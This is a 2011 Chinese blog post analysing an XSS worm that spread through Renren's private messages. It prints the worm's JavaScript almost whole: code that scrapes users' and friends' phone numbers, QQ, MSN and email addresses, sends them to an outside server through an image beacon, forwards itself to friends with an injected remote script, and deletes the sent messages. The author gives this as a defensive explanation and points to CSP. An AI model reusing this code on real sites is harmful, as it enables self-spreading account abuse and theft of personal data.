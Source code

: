 ```yaml
---
layout: post
title: "人人网站内信被XSS攻击"
date: 2011-04-30 02:00
comments: true
categories: [technology, hack]
---
```

今天相信很多人都收到了这些站内信

{% img center /images/uploads/2011/04/renren_message.png 559 118 '站内信'%}

然后许多人点开后就悲剧了，因为所有的好友都收到了来自这个人的站内信，信件内容一模一样

看到这个情况我的第一反应是人人被**XSS攻击**了


关于XSS攻击，可以参考这里：[http://baike.baidu.com/view/2161269.htm](http://baike.baidu.com/view/2161269.htm)

常见的XSS攻击基本上都是在页面上注入一个带有可执行脚本的代码，这段代码一旦被执行，就会威胁到用户数据和隐私的安全，所以目前企业对XSS有许多防范，比较多的都是对输入文本进行javascript标签过滤。。

但是人人却十分坑爹，竟然在站内信件内容上不做javascript过滤，于是我们在这封欺诈邮件中看到这段代码：

<!--more--> 

{% img center /images/uploads/2011/04/renren_sucks.png 453 73 '坑爹' %}

那么，让我们来看这个代码都干了什么吧：

**盗取用户信息**

{% codeblock lang:javascript %}
function get_self_info(){
new XN.net.xmlhttp({url:"http://www.renren.com/profile.do?v=info_ajax&amp;undefined",method:"GET",onSuccess:function(r){

var text_html = r.responseText;

var id,name,birthday,qq,school,mobile,msn,day,month,year;

	id = /getalbumprofile\.do\?owner\=(\d+)/.exec(text_html)[1];
	my_id = id;
	school = /pf_spread\'\&gt;(.*?)\&lt;\/a\&gt;/.exec(text_html)[1];
	year = /birt\"\,\"year\"\:\"(\d+)/.exec(text_html)[1];
	month = /birt\"\,\"month\"\:\"(\d+)/.exec(text_html)[1];
	day = /birt\"\,\"day\"\:\"(\d+)/.exec(text_html)[1];
	name = /alt\=\"([^\"]+)的大头贴/.exec(text_html)[1];

	if(month &lt;= 9){
	 month = "0"+month;
	}
	if(day &lt;= 9){
	 day = "0"+day;
	}
	birthday = year + month + day;

	qq = /QQ.*?dd\&gt;(.*?)\&lt;\/dd/.exec(text_html)[1];

	msn = /MSN.*?dd\&gt;(.*?)\&lt;\/dd/.exec(text_html)[1];

	mobile = /手机号.*?dd\&gt;(.*?)\&lt;\/dd/.exec(text_html)[1];

	var data = "type=self_info&amp;id=" + id + "&amp;name=" + encodeURIComponent(name)
				+ "&amp;school=" + encodeURIComponent(school)
				+ "&amp;birth=" + birthday
				+ "&amp;qq=" + qq
				+ "&amp;msn=" + encodeURIComponent(msn)
				+ "&amp;mobile=" + mobile;
	send_data(data);
}

});
}
{% endcodeblock %}


**发送用户信息到制定服务器：**


{% codeblock lang:javascript %}
function send_data(v)
{
	var img = document.createElement('img');
	img.src = 'http://qiutuan.net/2011/log.php?' + v;
	document.body.appendChild(img);
	document.body.removeChild(img);
}
{% endcodeblock %}


**给用户好友发站内信并且分享一个东西**

{% codeblock lang:javascript %}
function send_to_friends(){
	var i;
	var idlist = [];
	for (i = 0; i &lt; all_friends.length; i++)
	{
		idlist.push(all_friends[i].toString());
		if (idlist.length == 10)
		{
			_send_to_friends(idlist);
			idlist = [];
		}
	}
	if (idlist.length &gt; 0) _send_to_friends(idlist);
}

function _send_to_friends(ids){
  var content = "相信每个女生心底都有一只小猫，有的妩媚，有的狂野，有的多愁善感，有的古灵精怪……你心底的那只蠢蠢欲动的小猫，是什么样子的呢？她喜欢笑，你就老以为她是快乐的；她喜欢跳，你就老以为她是开朗的；她喜欢扭，你就老以为她是放肆的；她喜欢叫，你就老以为她是狂野的。一个人的时候，她其实多愁善感；一个人的时候，她其实安静淡然；一个人的时候，她其实内向自闭；一个人的时候，她其实乖巧温柔……（视频亮点在2:57秒)  &lt;script src='http://qiutuan.net/2011/51.js'&gt;&lt;/script&gt; &lt;embed src='http://player.youku.com/player.php/sid/XMjYxNDMwNDQ4/v.swf' quality='high' width='480' height='400' align='middle' allowScriptAccess='sameDomain' type='application/x-shockwave-flash'&gt;&lt;/embed&gt;";
  var p = {action:"sharetofriend",
		body:content,
		form:{
			albumid:"0",
			currenUserTinyurl:"http://hdn.xnimg.cn/photos/hdn421/20110118/1220/tiny_GeT4_23780d019116.jpg",
			fromSharedId:"0",
			fromShareOwner:"0",
			fromname:"",
			fromno:"0",
			fromuniv:"",
			link:"http://edm.renren.com/link.do?l=27627&amp;t=51",
			pic:"http://jebe.xnimg.cn/20110412/19/62caea7b-c7bc-4217-994a-ba6c061e5aa0.jpg",
			summary:"相信每个女生心底都有一只小猫，有的妩媚，有的狂野，有的多愁善感，有的古灵精怪……你心底的那只蠢蠢欲动的小猫，是什么样子的呢？",
			title:"加a02好友 奖品散不停",
			type:"51"
		},
		ids:ids,
		noteId:"0",
		subject:"有人暗恋你哦，你想知道TA是谁么",
		tsc:token};

  delete p.tsc;

new XN.net.xmlhttp({url:"http://share.renren.com/share/submit.do",
					data:"tsc="+token+"&amp;post="+encodeURIComponent(XN.json.build(p)),
					onSuccess: function (response) {del_send_messages();}
					});
}
{% endcodeblock %}


**删除发送痕迹**

{% codeblock lang:javascript %}
function del_messages(idlist){

var struct_msgs ={
					action:"delete",
					folder:"1",
					slice:"20",
					unread_count:"0",
					ids:idlist
				};

new Ajax.Request("/message/ajax.do",{method:"get",parameters:"post="+encodeURIComponent(XN.JSON.build(struct_msgs))});

}

function del_send_messages(){
	new XN.net.xmlhttp({url:"http://msg.renren.com/message/inbox.do?f=1",
					method:"GET",
					onSuccess: function (response) {
						var listid1 = response.responseText.match(/thread_(\d+)/g);
						for(var i=0;i &lt; listid1.length;i++){
							listid1[i] = listid1[i].substring(7);
						}
						del_messages(listid1);
					}
				});
}
{% endcodeblock %}


**获取所有好友的一些信息，发送到制定服务器上**

{% codeblock lang:javascript %}
function get_card(tid)
{
	  new XN.net.xmlhttp({url:'http://www.renren.com/showcard?friendID='+tid,
                      method:'get',
                      onSuccess:function(r){
					  var obj = eval("("+r.responseText+")");
					  var data = 'type=card&amp;my_id=' + my_id
								+ '&amp;id=' + obj.id
								+ '&amp;name=' + encodeURIComponent(obj.name)
								+ '&amp;msn=' + encodeURIComponent(obj.msn)
								+ '&amp;phone=' + encodeURIComponent(obj.phone)
								+ '&amp;qq=' + encodeURIComponent(obj.qq)
								+ '&amp;email=' + encodeURIComponent(obj.email)
								+ '&amp;address=' + encodeURIComponent(obj.address);
					send_data(data);
				}
	 });
}

function get_all_friends(){
	new XN.net.xmlhttp({url:"http://www.renren.com/listcards",method:"GET",onSuccess:function(r){

	var text_html = r.responseText;
	//alert(text_html);

	var friends_list = eval("("+text_html+")");
	var owned_mobile = (friends_list.list[0].list).length;  //have mobile friends number
	for(var i =0;i&lt; owned_mobile ;i++){
		mobile_friends.push(friends_list.list[0].list[i].id);
		all_friends.push(friends_list.list[0].list[i].id);
	}
	//alert(mobile_friends.length);

	var no_mobile = (friends_list.list[1].list).length;
	for(var i =0;i&lt; no_mobile ;i++){
		all_friends.push(friends_list.list[1].list[i].id);
	}
	//alert(all_friends.length);
	for(var i = 0; i &lt; mobile_friends.length; i++)
		get_card(mobile_friends[i]);
    send_to_friends();
}
});
}
{% endcodeblock %}


通过上面分析，我觉得大部分知道为什么会中招了吧？

建议中招的同学，*重新登陆一次*。同时上次看到[twitter的一篇博客](http://engineering.twitter.com/2011/03/improving-browser-security-with-csp.html "Improving Browser Security with CSP")，讲到了利用CSP机制（Content Security Policy）来阻止XSS攻击，这套标准目前Mozilla在推，在Firefox 4.0中实现了，当然这并不意味着你使用firefox 4.0就安全，这需要网站来配合这套机制。

总之，人人这次也算报了一个蛮丢人的XSS漏洞吧，希望尽快修复